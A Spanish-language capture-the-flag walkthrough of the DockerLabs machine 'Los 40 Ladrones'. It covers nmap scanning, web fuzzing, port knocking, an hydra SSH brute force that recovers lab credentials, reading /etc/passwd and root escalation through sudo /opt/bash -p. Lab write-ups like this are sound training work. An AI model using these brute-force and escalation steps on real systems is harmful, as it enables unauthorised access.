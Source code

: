 # Los 40 Ladrones


Dificultad -> Easy

Enlace a la máquina -> [DockerLabs](https://dockerlabs.es/)

-----------
## WriteUp Los 40 Ladrones

Para desplegar el laboratorio, simplemente tendremos que ejecutar el script auto_deploy.sh que viene junto a la máquina en formato .tar.

```bash
sudo bash auto_deploy.sh trust.tar
```

Como vemos, nos da la IP de la máquina desplegada y estamos listos para empezar.

![Imagen01](1.jpeg) 

Lo primero que haremos, es identificar nuestra IP de atacantes. Esto podemos hacerlo rápidamente con el siguiente comando. Hay otras opciones como ifconfig o hostname -I. 

```bash
ip a s [Interfaz]
```

![Imagen02](2.jpeg)


Con nuestra IP de atacantes identificada, ahora tenemos que conocer la IP de la máquina objetivo. En este caso al desplegar la máquina, podremos verla. No siempre así, por lo que para identificarla desde nuestro Kali, podemos ejecutar alguno de los siguientes comandos 

```bash
sudo nmap -sn [RangoIP/16]
```
```bash
sudo arp-scan -I [Interfaz] --localnet --ignoredups --ouifile=/usr/share/arp-scan/ieee-oui.txt --macfile=/etc/arp-scan/mac-vendor.txt
```

![Imagen03](3.jpeg)

Como vemos, solo hay un equipo en esta red, que se corresponde con la máquina vulnerable desplegada anteriormente y cuya IP coincide con la que nos dio el script auto_deploy.sh

Lo siguiente que vamos a hacer, es crearnos nuestros directorios de trabajo para tenerlo todo ordenado. Nos vamos a meter en el directorio nmap, y empezamos con la fase de enumeración. 

![Imagen04](4.jpeg)

Comenzamos lanzando un ping para ver que la máquina está encendida. Además, esto nos va a permitir identificar en un primer lugar ante que nos enfrentamos fijándonos en el valor del TTL. Como vemos, es de 64, por lo que podemos intuir que estamos ante un Linux. Si este valor fuera de 128, podríamos pensar que es un Windows. 


```bash
ping -c 1 [IPObjetivo]
```

![Imagen05](5.jpeg)

Ahora con nmap, vamos a tratar de ver que puertos se encuentran abiertos en el objetivo. Lanzamos nmap con los siguientes parámetros.

```bash
sudo nmap -p- --open -sS -vvv -n -Pn [IPobjetivo] -oG [Archivo]
```

- Parámetos de nmap
  - *-p-* Escanea el rango total de puertos (65535). 
  - *--open* Nos reportará solo los puertos abiertos. 
  - *-sS* (TCP SYN), también conocido como TCP SYN scan o Half-Open Scan. Es un tipo de escaneo más sigiloso que otro tipo de escaneos ya que no completa la conexión TCP, evitando en gran medida que se registre en los logs del sistema objetivo. Sin embargo, algunos sistemas de seguridad si que pueden detectar este tipo de escaneo y tomar medidas.
  - *-vvv* Triple verbose, para ver en consola lo que vaya encontrando nmap
  - *-n* Para no aplicar resolución DNS 
  - *-Pn* No realiza detección de Host. Con este parámetro nmap asumirá que los Host especificados están activos. 
  - *-oG* Genera un archivo de salida en formato Greppable, con el nombre que le hayamos especificado

![Imagen06](6.jpeg)

Tal y como vemos en la imagen, solo encontramos abierto el puerto 80. 

Vamos a volver a tirar de nmap, para realizar un segundo escaneo de la versión de los servicios que corren en este puerto; así como para lanzar un conjunto de scripts básicos de reconocimiento que nos permitan enumerar mejor este objetivo. 


```bash
sudo nmap -sC -sV -p[Puertos] [IPObjetivo] -oN [Archivo]
```

![Imagen07](7.jpeg)

Identificamos en primer lugar que nos vamos a enfrentar a un Ubuntu, y podemos ver también la versión correspondiente. Con el título de la página, podemos intuir también que vamos a encontrar simplemente la página por defecto de Apache2 en Ubuntu. De hecho si le echamos un vistazo desde el navegador, podemos verlo 

![Imagen08](8.jpeg)

En este punto, decidimos hacer Fuzzing Web para tratar de enumerar directorios ocultos, tirando para ello de Gobuster, tratando de encontrar extensiones php, HTML y txt. 

```bash
gobuster dir -u http://[IPObjetivo] -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -x php,html,txt -o hidden_directory
``` 

![Imagen09](9.jpeg)

Gobuster nos reporta un archivo interesante llamado qdefense.txt que vamos a inspeccionar. 

```bash
curl http://[IPObjetivo]/qdefense.txt
```

![Imagen010](10.jpeg)


```
Recuerda llama antes de entrar , no seas como toctoc el maleducado
7000 8000 9000
busca y llama +54 2933574639
```

Al tratarse de un CTF, podemos intuir que toctoc es un usuario. Luego la secuencia 7000 8000 9000, bien podrían ser puertos. Esto nos recuerda a Port Knocking. El port Knocking es una técnica para abrir puertos externamente en un firewall mediante una secuencia preestablecida de intentos de conexión a puertos que se encuentran cerrados. Una vez el firewall recibe una secuencia de conexión correcta, sus reglas son modificadas para permitir al host que realizó los intentos, conectarse a un puerto específico. 

Lo que vamos a hacer, es utilizar la herramienta knock, que lo que hace es enviar secuencias de "knocks" a un servidor para activar una acción específica, como en este caso, abrir un puerto en concreto. 

```bash
knock -v [IPObjetivo] 7000 8000 9000
```

![Imagen011](11.jpeg)


Con esto hecho, si estamos en el camino correcto; si volvemos a realizar un escaneo con nmap para ver los puertos abiertos, deberíamos ver algo nuevo. 

```bash
nmap -p- --open -sS -vvv -n -Pn [IPvictima] -oG [archivo]
```

![Imagen012](12.jpeg)

Tal y como vemos en la imagen, ahora tenemos abiertos el puerto 80 y el puerto 22 (SSH). Vamos a lanzar un conjunto de script básicos de reconocimiento para estos puertos y tratar de enumerar la versión como siempre 

```bash
nmap -sC -sV -p[Puertos] [IPObjetivo] -oN [Archivo]
```

![Imagen013](13.jpeg)

En principio la versión de SSH no parece vulnerable. Pero lo que si que podemos tratar de hacer, es un ataque de fuerza bruta utilizando el nombre de usuario que encontramos anteriormente en la nota (toctoc) utilizando para ello como siempre hydra. 

```bash
hydra -l toctoc -P /usr/share/wordlists/rockyou.txt ssh://[IPObjetivo]:22 -o credentials.txt -V -t 50 -f
```

Si le hacemos un cat al archivo generado, podremos ver las credenciales 

![Imagen014](14.jpeg)


```
Usuario: toctoc
Contraseña: kittycat
```

Pues ya con unas credenciales válidas, podemos tratar de conectarnos mediante SSH al objetivo 

```bash
ssh toctoc@[IPObjetivo] -p 22
```

![Imagen015](15.jpeg)

Si queremos hacer un tratamiento de la TTY para trabajar de forma más cómoda, en este caso nos valdrá con cambiar la variable TERM a xterm para limpiar la consola con CTRL + L, ya que lo demás funciona correctamente. 

```bash
export TERM=xterm
```

Algo que hacemos siempre al ganar acceso a un equipo, es echarle un vistazo al /etc/passwd 

```bash
cat /etc/passwd | grep "sh$"
```

![Imagen016](16.jpeg)


Vemos que hay 3 usuarios. El usuario root, el usuario ubuntu y el usuario toctoc. Pues bueno ahora es hora de elevar privilegios. 

Si comprobamos los permisos de sudo para el usuario toctoc, veremos lo siguiente 

```bash
sudo -l
```

![Imagen017](17.jpeg)

Podemos ejecutar con sudo el binario /opt/bash. Si listamos además los permisos de este binarios, vemos que efectivamente tiene el bit SUID activo y el propietario es root. Por lo que si ejecutamos el siguiente comando, en teoría debería darnos una bash como root 

```bash
sudo /opt/bash -p
```
![Imagen018](18.jpeg)



